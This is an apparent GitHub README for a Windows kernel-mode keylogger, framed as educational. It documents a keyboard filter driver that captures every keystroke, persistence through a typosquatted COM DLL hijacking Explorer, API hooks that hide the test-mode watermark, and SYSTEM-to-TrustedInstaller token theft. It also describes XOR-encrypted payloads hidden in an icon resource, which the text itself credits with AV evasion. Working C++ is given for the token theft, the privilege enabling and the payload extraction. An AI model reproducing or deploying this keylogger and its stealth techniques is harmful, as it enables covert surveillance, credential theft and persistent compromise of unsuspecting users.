



# UDP Keyboard Logger - Educational Kernel-Mode Project

## Quick Start

This project demonstrates the use of a custom keyboard driver operating in kernel mode with a built-in UDP protocol under 30 kB. After successful installation, verify operation with:

```cmd
UdpLogger status
```

**Expected Output (Fully Operational):**
```
=== UDP Keyboard Logger - Full System Status ===

[+] Windows Service: RUNNING (UdpKeyboardLogger)
[+] Kernel Driver: LOADED (kvckbd.sys)
[+] CLSID Hijack: ACTIVE (ExplorerFrame.dll -> ExpIorerFrame.dll)
[+] Test Signing: ENABLED (BCD)
[+] Files: All components present

Overall Status: FULLY OPERATIONAL
```

## Table of Contents

- [Project Overview](#project-overview)
- [Architecture Overview](#architecture-overview)
- [Component 1: kvckbd.sys - Kernel Driver](#component-1-kvckbdsys---kernel-driver)
- [Component 2: ExplorerFrame.dll - Persistence Layer](#component-2-explorerframedll---persistence-layer)
- [Component 3: UdpLogger.exe - Management Hub](#component-3-udploggerexe---management-hub)
- [BCD Deep Dive](#bcd-deep-dive)
- [Driver Service Registration](#driver-service-registration)
- [Installation & Usage](#installation--usage)
- [Technical Details & Internals](#technical-details--internals)
- [Security Considerations](#security-considerations)
- [Build & Development](#build--development)
- [Troubleshooting](#troubleshooting)
- [Legal & Educational Notice](#legal--educational-notice)

## Project Overview

### Introduction
This comprehensive educational project represents one of the few fully functional IRP-based keyboard filter drivers developed in recent years, specifically compiled and tested for Windows 11 25H2 that successfully combines kernel-mode interception, network communication, sophisticated privilege escalation, and persistent installation mechanisms. The project serves as a practical reference for understanding modern Windows protection mechanisms and kernel programming techniques.

### Educational Purpose
This system is designed for:

- Security researchers studying Windows defense mechanisms and attack vectors
- Kernel developers learning IRP-based filter drivers and Windows Driver Model (WDM)
- System programmers understanding Windows internals, BCD manipulation, and privilege escalation
- Red team operators researching persistence techniques in authorized penetration testing environments

### Critical Prerequisites
⚠️ MANDATORY REQUIREMENTS:

- Disable Secure Boot in BIOS/UEFI settings
- Administrator privileges required
- Windows 10/11 x64 systems only
- Authorized, controlled testing environment

Alternative approach: use the companion KVC tool – a separate project that can load an unsigned kernel driver without reboot in any protection mode (including Secure Boot). Note: the user must update the KVC source (including the offset map in OffsetFinder.cpp) before use.

### Three-Component Ecosystem

| Component | Type | Privilege Level | Primary Function |
|-----------|------|----------------|------------------|
| kvckbd.sys | Kernel Filter Driver | Ring 0 | IRP-level keyboard interception, scan code processing, WSK networking |
| ExplorerFrame.dll | COM In-Process Server | Ring 3 (User) | CLSID hijacking for persistence, API hooking for watermark removal |
| UdpLogger.exe | Service Manager | Ring 3 (TI/Admin) | Installation orchestration, UDP logging, system status monitoring |

## Architecture Overview

### Data Flow Pipeline
The system implements a multi-layer interception and processing pipeline:

```
Keyboard Hardware
    ↓
i8042prt.sys / USB HID Driver (Port Driver)
    ↓
kbdclass.sys (Windows Keyboard Class Driver)
    ↓ [IRP_MJ_READ Interception Point]
kvckbd.sys (Filter Driver - Ring 0)
    ├→ Scan Code Translation
    ├→ State Machine Processing
    ├→ Line Buffering (512 bytes)
    └→ WSK UDP Transmission
        ↓
127.0.0.1:31415 (Localhost UDP Socket)
    ↓
UdpLogger.exe Windows Service (Ring 3)
    ├→ Non-blocking UDP Listener
    ├→ Daily Log Rotation
    └→ Timestamped File Output
        ↓
keyboard_log_YYYY-MM-DD.txt
```

### Component Interaction Model
The three components operate independently yet cooperatively:

**Kernel Space (Ring 0):**

- kvckbd.sys operates as a transparent filter between applications and the keyboard hardware
- Intercepts IRP_MJ_READ requests destined for kbdclass.sys
- Processes keyboard input asynchronously using system threads
- Transmits processed keystrokes via kernel-mode UDP (WSK)

**User Space (Ring 3):**

- UdpLogger.exe runs as a Windows Service (UdpKeyboardLogger)
- Listens on UDP port 31415 for incoming keystroke data
- Implements daily log rotation with automatic header/footer generation
- Provides comprehensive CLI for system management and status monitoring

**Persistence Layer:**

- ExplorerFrame.dll (misspelled as ExpIorerFrame.dll) hijacks legitimate COM CLSID
- Loads automatically when explorer.exe initializes shell components
- Hooks API functions to remove "Test Mode" watermark
- Ensures stealth operation by patching import tables

### Installation State Flow

```
[User Executes: UdpLogger install]
           ↓
    ┌──────────────────────────────────┐
    │ Secure Boot Detection Phase      │
    │  • Check UEFI registry key       │
    │  • Block if Secure Boot enabled  │
    │  • Display BIOS disable guide    │
    └──────────────────────────────────┘
           ↓
    ┌──────────────────────────────────┐
    │ Resource Extraction Phase        │
    │  • Skip icon data (1662 bytes)   │
    │  • XOR-decrypt CAB archive       │
    │  • FDI in-memory decompression   │
    │  • Extract kvc.bin               │
    │  • Parse PE binaries (MZ search) │
    │  • Identify by subsystem field   │
    └──────────────────────────────────┘
           ↓
    ┌──────────────────────────────────┐
    │ Privilege Escalation Phase       │
    │  • Acquire SYSTEM token          │
    │  • Start TrustedInstaller        │
    │  • Duplicate TI token            │
    │  • Enable all privileges         │
    └──────────────────────────────────┘
           ↓
    ┌──────────────────────────────────┐
    │ File Deployment Phase            │
    │  • Write to System32             │
    │  • Write to DriverStore          │
    │  • Direct API (no cmd.exe)       │
    └──────────────────────────────────┘
           ↓
    ┌──────────────────────────────────┐
    │ Registry Configuration Phase     │
    │  • CLSID hijack registration     │
    │  • BCD test signing enable       │
    │  • Driver service creation       │
    └──────────────────────────────────┘
           ↓
    ┌──────────────────────────────────┐
    │ Service Installation Phase       │
    │  • Create Windows service        │
    │  • Configure auto-start          │
    │  • Start service immediately     │
    └──────────────────────────────────┘
           ↓
    [System Reboot Required]
           ↓
    [kvckbd.sys loads at boot]
           ↓
    [System Fully Operational]
```

### Secure Boot Detection & Blocking

**Pre-Installation Check** (`SystemStatus.cpp:91-104`)

Before any installation steps, the system checks if Secure Boot is enabled:

```cpp
HKEY hKey;
DWORD secureBootEnabled = 0;

RegOpenKeyExW(HKEY_LOCAL_MACHINE, 
    L"SYSTEM\\CurrentControlSet\\Control\\SecureBoot\\State", 
    0, KEY_READ, &hKey);

RegQueryValueExW(hKey, L"UEFISecureBootEnabled", nullptr, nullptr, 
    (LPBYTE)&secureBootEnabled, &dataSize);

return secureBootEnabled == 1;  // TRUE = Secure Boot ON → BLOCK
```

**Installation Blocking** (`UdpLogger.cpp:216-234`)

If Secure Boot is detected, installation terminates immediately with error message:

```
[ERROR] SECURE BOOT IS ENABLED - INSTALLATION BLOCKED

+============================================================+
|                   SECURE BOOT DETECTED                    |
+============================================================+
|  Secure Boot is enabled in UEFI/BIOS settings.            |
|  This prevents loading unsigned kernel drivers.           |
|                                                           |
|  REQUIRED ACTION:                                         |
|  1. Enter UEFI/BIOS settings during boot                  |
|  2. Disable Secure Boot                                   |
|  3. Save changes and reboot                               |
|  4. Run installation again                                |
+============================================================+
```

**Why This Matters:**
- kvckbd.sys is test-signed, not WHQL/Microsoft-signed
- Secure Boot enforces Microsoft's driver signature policy
- Installation would complete but driver would fail to load
- Pre-check prevents wasted time and provides clear guidance

## Component 1: kvckbd.sys - Kernel Driver

### Overview
The kernel driver is the cornerstone of this system, operating at Ring 0 with full kernel privileges. It implements a sophisticated IRP filter mechanism that intercepts keyboard input at the Windows Driver Model (WDM) level, specifically targeting the kbdclass.sys class driver.

### Architectural Design

**Filter Driver Philosophy:**
Rather than implementing a complete keyboard driver stack, kvckbd.sys adopts the filter driver pattern. It positions itself between user-mode applications and the legitimate Windows keyboard driver, allowing it to observe and process all keyboard input without replacing core system functionality.

**Key Innovation - Modern IRP-Based Implementation – Tested on Windows 11 25H2:**
This driver represents a rare working implementation of IRP-based keyboard filtering. Most modern attempts fail due to:

- Incorrect offset calculations for DeviceExtension structures
- Improper synchronization leading to race conditions and BSODs
- Failure to handle IRP cancellation correctly
- Inadequate resource cleanup during driver unload

This project solves all these challenges through careful architecture-specific offset management, proper IRQL-aware synchronization, and comprehensive cancellation handling.

### IRP Interception Mechanism

**DeviceExtension Offset Technique:**
The driver directly accesses internal structures of kbdclass.sys by using architecture-specific offsets into the DeviceExtension. This technique is necessary because Microsoft doesn't expose these structures publicly:

| Structure | x86 Offset | x64 Offset | Purpose |
|-----------|------------|------------|---------|
| IO_REMOVE_LOCK | 0x10 | 0x20 | Prevents device removal during operations |
| KSPIN_LOCK | 0x6C | 0xA0 | Synchronizes access to IRP queue |
| LIST_ENTRY | 0x70 | 0xA8 | Head of pending read IRP queue |

**IRP Queue Manipulation:**
The driver dequeues pending IRPs directly from kbdclass.sys's internal queue, processes them, then forwards them to the original handler. This requires:

- Acquiring the keyboard device's spinlock (at DISPATCH_LEVEL)
- Removing IRP from linked list
- Clearing cancel routines safely
- Handling race conditions with IRP cancellation

**Thread-Based Processing:**
Each intercepted IRP spawns a dedicated system thread. This design:

- Prevents blocking at high IRQL
- Allows synchronous waiting for lower driver completion
- Enables proper context for WSK network operations
- Simplifies error handling and resource cleanup

### Scan Code Processing Engine

**Multi-Table Translation System:**
The driver implements an efficient scan code translation engine using multiple lookup tables:

- **Base Table (84 entries)**: Maps scan codes 0x00-0x53 to lowercase characters
- **Shift Modifiers (10 entries)**: Translates digits under Shift (1→!, 2→@, etc.)
- **Special Characters**: Handles punctuation marks with Shift variations
- **Extended Codes (18 entries)**: E0-prefixed scan codes (arrows, Right Ctrl/Alt, etc.)
- **International Support**: Polish diacritics via AltGr combinations (ą, ć, ę, ł, ń, ó, ś, ú, ż)

**State Machine Implementation:**
The driver maintains keyboard state flags (Shift, CapsLock, NumLock) and implements XOR logic for proper character output. For letters:

- Shift + CapsLock OFF = Uppercase
- Shift OFF + CapsLock = Uppercase
- Shift + CapsLock = Lowercase (XOR behavior)

**Performance Optimization:**
Instead of storing all combinations (84 × 4 = 336 entries), the driver computes variations at runtime, reducing memory footprint to ~1KB for all translation tables while maintaining O(1) lookup complexity.

### Line Buffering Innovation

**Design Rationale:**
Traditional keystroke loggers send one network packet per key press, generating excessive traffic. This driver implements line-based buffering:

- Accumulates keystrokes in a 512-byte buffer
- Filters out modifier keys ([Shift], [Ctrl], [Alt])
- Filters out function keys (F1-F12)
- Transmits complete lines only when Enter is pressed

**Performance Impact:**

- Before: 1000 keystrokes/minute = 1000 UDP packets
- After: 1000 keystrokes/minute ≈ 10-20 UDP packets (typical typing patterns)
- Network overhead reduction: 95-98%

**Synchronization:**
The buffer uses KSPIN_LOCK for protection since it's accessed at DISPATCH_LEVEL. Spinlocks are mandatory here (mutexes would cause BSOD at DISPATCH_LEVEL).

### WSK Network Stack

**Kernel-Mode Networking:**
The driver uses Winsock Kernel (WSK) for UDP communication. WSK advantages:

- No context switching to user mode
- Direct access to network stack
- Operation at IRQL ≤ DISPATCH_LEVEL
- Suitable for driver-to-driver or driver-to-service communication

**Initialization Process:**

1. Start WSK subsystem (WSKStartup)
2. Resolve target address via WSKGetAddrInfo (supports both IPv4/IPv6)
3. Create datagram socket (WSKSocket with SOCK_DGRAM)
4. Configure default destination via SIO_WSK_SET_SENDTO_ADDRESS ioctl

**UDP Transmission:**
Calls WSKSendTo with pre-configured socket. No need to specify destination address on each call since SIO_WSK_SET_SENDTO_ADDRESS sets a default target.

### Driver Lifecycle Management

**Initialization Thread:**
A persistent system thread (KbdThread_IrpHookInit) runs continuously:

- Enumerates keyboard device objects every 100ms
- Detects newly plugged keyboards (hot-plug support)
- Hooks device objects by modifying FileObject->DeviceObject pointers
- Maintains list of hooked keyboard objects

**Clean Unload Process:**
Unloading a filter driver is notoriously difficult. This driver implements:

1. **Signal shutdown**: Set IsUnloading flag
2. **Unhook devices**: Restore original DeviceObject pointers
3. **Wait for safety**: Poll SafeUnload flag on each keyboard object
4. **Flush buffers**: Send any remaining buffered keystrokes
5. **Release resources**: Close sockets, delete resources, free pool memory
6. **Delete device**: Remove filter device object

**Critical Safety Mechanism:**
The SafeUnload flag prevents premature unload while IRPs are still processing. Each keyboard object tracks whether it's safe to cleanup, preventing BSOD during unload.

## Component 2: ExplorerFrame.dll - Persistence Layer

### Overview
This COM in-process server achieves two objectives: persistence through CLSID hijacking and stealth through API hooking to remove test mode watermarks. It demonstrates advanced techniques for DLL injection and import table manipulation.

### CLSID Hijacking for Persistence

**Target CLSID:**
```
{ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}
```

**Mechanism:**
When Windows Explorer (explorer.exe) starts, it loads numerous COM components. By hijacking the InProcServer32 registry value for a specific CLSID, we can inject our DLL into Explorer's address space automatically at every system boot.

**Registry Manipulation:**
- Original: `HKCR\CLSID\{...}\InProcServer32 = %SystemRoot%\system32\ExplorerFrame.dll`
- Hijacked: `HKCR\CLSID\{...}\InProcServer32 = %SystemRoot%\system32\ExpIorerFrame.dll`

**Stealth Through Typosquatting:**
The filename uses visual similarity:

- `ExplorerFrame.dll` (legitimate, uses lowercase 'l')
- `ExpIorerFrame.dll` (malicious, uses uppercase 'I')

In many fonts, 'l' and 'I' are nearly indistinguishable, making casual file listing appear normal.

**Persistence Characteristics:**

- Survives system reboots
- Loads automatically with Explorer
- No additional scheduled tasks or startup entries
- Difficult to detect without registry inspection
- Survives user logout/login

### API Hooking - Import Address Table (IAT) Patching

**Objective:**
Remove "Test Mode" watermark displayed by Windows when test signing is enabled. The watermark is rendered by shell32.dll using LoadStringW and ExtTextOutW API calls.

**Hooking Technique:**
The DLL implements IAT patching to redirect API calls:

1. **Locate IAT**: Parse PE headers of shell32.dll in memory
2. **Find import entries**: Scan import directory for LoadStringW and ExtTextOutW
3. **Modify function pointers**: Replace original addresses with proxy functions
4. **VirtualProtect**: Temporarily disable page protection to write

**Proxy Functions:**

- **Proxy_LoadString**: Returns 0 (empty string) for string IDs 62000/62001 (test mode strings)
- **Proxy_ExtTextOut**: Filters out watermark text before calling original ExtTextOutW

**String Detection:**
The DLL maintains a list of watermark strings:

- "Windows [Edition]"
- "Build [Number]"
- Test Mode indicators

If detected in text output calls, the function returns success without actually drawing.

**Initialization Timing:**
Hooking occurs in DllMain during DLL_PROCESS_ATTACH, ensuring it activates before Explorer renders any UI elements.

### Minimalist Implementation

**Design Philosophy:**
The DLL is built with aggressive size optimization:

- No C Runtime Library (CRT)
- Custom memory allocation using HeapAlloc
- Custom string functions (min_memcpy, min_memset, min_memcmp)
- Direct Windows API calls only
- Custom new/delete operators

**Binary Size:**
Through these optimizations, the compiled DLL is extremely small (~7 KB), making it less suspicious and easier to hide.

**Function Forwarding:**
The DLL exports two functions that forward to the legitimate explorerframe.dll:

```
DllGetClassObject → explorerframe.DllGetClassObject
DllCanUnloadNow → explorerframe.DllCanUnloadNow
```

This ensures COM functionality remains intact while injection occurs transparently.

## Component 3: UdpLogger.exe - Management Hub

### Overview
UdpLogger.exe is the orchestration center of the entire system. It serves four critical roles:

1. **Installer** - Deploys and configures all components with TrustedInstaller privileges
2. **Service** - Runs as Windows Service to receive and log UDP keystroke data
3. **Manager** - Provides CLI for controlling driver and service states
4. **Monitor** - Comprehensive system status checking and diagnostics

This component demonstrates advanced Windows service programming, privilege escalation techniques, and secure resource embedding.

### Command-Line Interface
The tool provides a comprehensive CLI for all management operations:

```cmd
UdpLogger install              # Full installation with reboot prompt
UdpLogger install --reboot     # Install and reboot automatically
UdpLogger uninstall            # Complete removal (reboot recommended)
UdpLogger status               # System-wide component status check

UdpLogger service start        # Start Windows service
UdpLogger service stop         # Stop Windows service
UdpLogger service restart      # Restart Windows service
UdpLogger service status       # Query service state

UdpLogger driver start         # Load kernel driver
UdpLogger driver stop          # Unload kernel driver
UdpLogger driver restart       # Restart driver
UdpLogger driver status        # Query driver state
```

### TrustedInstaller Privilege Escalation

**Why TrustedInstaller?**
Windows protects critical system files and registry keys using TrustedInstaller ownership. Standard Administrator privileges cannot:

- Write to %SystemRoot%\System32 (virtualized)
- Modify HKLM\BCD00000000 registry hive
- Write to DriverStore directories
- Modify certain CLSIDs in HKCR

**Escalation Chain:**
```
Current Process (Administrator)
    ↓ [Enable SeDebugPrivilege]
OpenProcess(winlogon.exe)
    ↓ [OpenProcessToken]
Acquire SYSTEM Token
    ↓ [DuplicateTokenEx]
Impersonate SYSTEM
    ↓ [StartService("TrustedInstaller")]
TrustedInstaller Service Running
    ↓ [OpenProcess(TrustedInstaller.exe)]
Acquire TrustedInstaller Token
    ↓ [DuplicateTokenEx]
TrustedInstaller Impersonation Token
    ↓ [ImpersonateLoggedOnUser]
Execute Operations with TI Privileges
    ↓
[RevertToSelf]
```

**Key Techniques:**

1. **SYSTEM Acquisition:**
   - Locates winlogon.exe process (always runs as SYSTEM)
   - Opens process with PROCESS_QUERY_INFORMATION
   - Duplicates token with SecurityImpersonation level

2. **TrustedInstaller Service:**
   - Service name: "TrustedInstaller"
   - Start type: Manual (must be started explicitly)
   - Monitors service state until SERVICE_RUNNING
   - Acquires process token once running

3. **Privilege Enablement:**
   - Enables all 8 critical privileges on token:
     - SeDebugPrivilege - Debug any process
     - SeImpersonatePrivilege - Impersonate tokens
     - SeAssignPrimaryTokenPrivilege - Assign tokens to processes
     - SeTcbPrivilege - Trusted Computer Base
     - SeBackupPrivilege - Backup files
     - SeRestorePrivilege - Restore files
     - SeTakeOwnershipPrivilege - Take ownership of objects
     - SeSecurityPrivilege - Manage audit/security logs

4. **Impersonation Context:**
   - All file/registry operations occur within ImpersonateLoggedOnUser context
   - Operations use impersonated credentials automatically
   - RevertToSelf() called after each operation batch

### Resource Extraction - Steganography Technique

**Embedding Method:**

The final UdpLogger.exe embeds both kvckbd.sys and ExpIorerFrame.dll using steganography with CAB compression, achieving exceptional size efficiency (~18 KB total).

**Structure:**

```
IDR_MAINICON Resource (RT_RCDATA) - Total: ~18 KB
├── [0x0000 - 0x067E]  Valid ICO file (1,662 bytes) - Visual mask
└── [0x067E - EOF]     XOR-Encrypted CAB Archive
    └── XOR Key: 0xA0 0xE2 0x80 0x8B 0xE2 0x80 0x8C
        └── CAB Contents: kvc.bin (concatenated PE files)
            ├── kvckbd.sys      (Kernel driver - subsystem 1)
            └── ExpIorerFrame.dll (Usermode library - subsystem 2)
```

**Encryption:**

Files are XOR-encrypted with a 7-byte key before CAB compression:

```cpp
static constexpr std::array<BYTE, 7> XOR_KEY = { 
    0xA0, 0xE2, 0x80, 0x8B, 0xE2, 0x80, 0x8C 
};

void XorDecrypt(BYTE* data, size_t size) noexcept {
    for (size_t i = 0; i < size; ++i) {
        data[i] ^= XOR_KEY[i % XOR_KEY.size()];
    }
}
```

**Extraction Process** (`ResourceExtractor.cpp`):

**Stage 1: Resource Loading** (Lines 269-283)
```cpp
// Load embedded resource from executable
HRSRC hRes = FindResourceW(hInstance, MAKEINTRESOURCEW(IDR_MAINICON), RT_RCDATA);
HGLOBAL hResData = LoadResource(hInstance, hRes);
DWORD resSize = SizeofResource(hInstance, hRes);
const BYTE* resData = static_cast<const BYTE*>(LockResource(hResData));
```

**Stage 2: Icon Skipping** (Lines 285-292)
```cpp
// Skip ICO header and image data (first 1662 bytes)
const size_t ICON_SIZE = 1662;
std::vector<BYTE> encryptedCab(resData + ICON_SIZE, resData + resSize);
```

**Stage 3: XOR Decryption** (Lines 294-295)
```cpp
// Decrypt CAB archive in memory
XorDecrypt(encryptedCab.data(), encryptedCab.size());
// Expected signature after decrypt: 4D 53 43 46 (MSCF - CAB magic)
```

**Stage 4: In-Memory CAB Decompression** (Lines 123-183)

Uses Windows FDI (File Decompression Interface) API with custom callbacks:

```cpp
// Setup memory-based CAB extraction
MemoryReadContext ctx = { cabData, cabSize, 0 };
HFDI hfdi = FDICreate(fdi_alloc, fdi_free, fdi_open, fdi_read, 
                      fdi_write, fdi_close, fdi_seek, cpuUNKNOWN, &erf);

// Extract files from CAB (no temp files - all in memory)
FDICopy(hfdi, "memory.cab", "", 0, fdi_notify, nullptr, &files);
```

Key implementation details:
- `fdi_open`: Returns pointer to memory context (not file handle)
- `fdi_read`: Reads from memory buffer instead of disk
- `fdi_write`: Writes to in-memory vector (no filesystem I/O)
- `fdi_seek`: Adjusts memory offset pointer
- No temporary files created - entire operation in RAM

**Stage 5: PE Binary Separation** (Lines 188-242)

The extracted `kvc.bin` contains two concatenated PE files. Parser identifies them by:

```cpp
// Find all PE signatures (MZ = 0x4D 0x5A)
std::vector<size_t> peOffsets;
for (size_t i = 0; i < kvcData.size() - 1; i++) {
    if (kvcData[i] == 0x4D && kvcData[i + 1] == 0x5A) {
        peOffsets.push_back(i);
    }
}

// Identify file type by PE Optional Header subsystem field
DWORD peOffset = *reinterpret_cast<const DWORD*>(&file.data[0x3C]);
WORD subsystem = *reinterpret_cast<const WORD*>(&file.data[peOffset + 0x5C]);

// IMAGE_SUBSYSTEM_NATIVE (1) = Kernel driver → kvckbd.sys
// IMAGE_SUBSYSTEM_WINDOWS_GUI (2) = DLL → ExpIorerFrame.dll
if (subsystem == 1) {
    file.filename = L"kvckbd.sys";
} else {
    file.filename = L"ExpIorerFrame.dll";
}
```

**Advantages:**

- **Size Efficiency**: ~18 KB total resource (icon + compressed binaries)
- **Stealth**: Hidden in legitimate icon resource (RT_RCDATA type)
- **Memory-only**: No temporary files during extraction process
- **Obfuscation**: XOR encryption + CAB compression prevents static analysis
- **Single Executable**: All components embedded in installer
- **AV Evasion**: Scanners often skip icon resources or struggle with multi-layer encoding

**Detection Resistance:**

1. First 1662 bytes are valid ICO data - appears as normal icon
2. Remaining data looks like random noise until XOR-decrypted
3. CAB signature only visible after decryption
4. PE files only accessible after CAB extraction
5. No external dependencies or suspicious file downloads

### TrustedInstaller Token Impersonation

The installation process requires **TrustedInstaller** privileges to deploy files to protected system locations. The system uses sophisticated token impersonation instead of traditional privilege escalation methods (takeown/icacls), achieving direct API-level operations without spawning external processes.

**Token Escalation Chain:**

```
Current Process (Administrator)
    ↓ [OpenProcessToken → DuplicateTokenEx]
SYSTEM Token (via winlogon.exe process)
    ↓ [ImpersonateLoggedOnUser → StartService]
TrustedInstaller Service Token
    ↓ [Direct Win32 API with impersonation]
Protected System Resources (System32, DriverStore, Registry)
```

**Implementation Details** (`TrustedInstallerExecutor.cpp`):

**Phase 1: SYSTEM Token Acquisition** (Lines 258-275)

```cpp
// Locate winlogon.exe (always runs as NT AUTHORITY\SYSTEM)
auto winlogonPid = GetProcessIdByName(L"winlogon.exe");
HANDLE process = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, *winlogonPid);

// Duplicate its token for impersonation
HANDLE token;
OpenProcessToken(process, TOKEN_DUPLICATE | TOKEN_QUERY, &token);
DuplicateTokenEx(token, MAXIMUM_ALLOWED, nullptr, 
    SecurityImpersonation, TokenImpersonation, &systemToken);
```

**Phase 2: TrustedInstaller Service Activation** (Lines 277-321)

```cpp
// Impersonate SYSTEM to gain service start permissions
ImpersonateLoggedOnUser(systemToken);

// Start TrustedInstaller Windows service
SC_HANDLE scManager = OpenSCManagerW(nullptr, nullptr, SC_MANAGER_CONNECT);
SC_HANDLE service = OpenServiceW(scManager, L"TrustedInstaller", 
    SERVICE_QUERY_STATUS | SERVICE_START);

StartServiceW(service, 0, nullptr);

// Wait for SERVICE_RUNNING state (with timeout)
SERVICE_STATUS_PROCESS status;
while (QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, &status, ...)) {
    if (status.dwCurrentState == SERVICE_RUNNING) {
        trustedInstallerPid = status.dwProcessId;
        break;
    }
    Sleep(status.dwWaitHint ? status.dwWaitHint : 100);
}
```

**Phase 3: Token Extraction & Duplication** (Lines 323-337)

```cpp
// Open TrustedInstaller process handle
HANDLE tiProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, trustedInstallerPid);

// Steal its token
HANDLE tiToken;
OpenProcessToken(tiProcess, TOKEN_DUPLICATE | TOKEN_ADJUST_PRIVILEGES, &tiToken);
DuplicateTokenEx(tiToken, MAXIMUM_ALLOWED, nullptr, 
    SecurityImpersonation, TokenImpersonation, &finalToken);

// Revert SYSTEM impersonation
RevertToSelf();
```

**Phase 4: Privilege Enablement** (Lines 155-177)

```cpp
// Enable all required privileges on TrustedInstaller token
const std::array<std::wstring_view, 8> REQUIRED_PRIVILEGES = {
    L"SeDebugPrivilege",           // Debug processes
    L"SeImpersonatePrivilege",     // Impersonate tokens
    L"SeAssignPrimaryTokenPrivilege", // Assign primary token
    L"SeTcbPrivilege",             // Trusted computer base
    L"SeBackupPrivilege",          // Backup files/registry
    L"SeRestorePrivilege",         // Restore files/registry
    L"SeTakeOwnershipPrivilege",   // Take ownership of objects
    L"SeSecurityPrivilege"         // Manage auditing/security log
};

for (auto privilege : REQUIRED_PRIVILEGES) {
    LUID luid;
    LookupPrivilegeValueW(nullptr, privilege, &luid);
    
    TOKEN_PRIVILEGES tp{};
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    
    AdjustTokenPrivileges(token, FALSE, &tp, sizeof(tp), nullptr, nullptr);
}
```

**Direct Operations (No External Processes):**

**File Operations** (Lines 443-497)

```cpp
bool WriteFileAsTrustedInstaller(const std::wstring& path, 
                                  const std::vector<BYTE>& data) {
    // Impersonate TrustedInstaller token
    ImpersonateLoggedOnUser(tiToken.get());
    
    // Create/write file directly via Win32 API
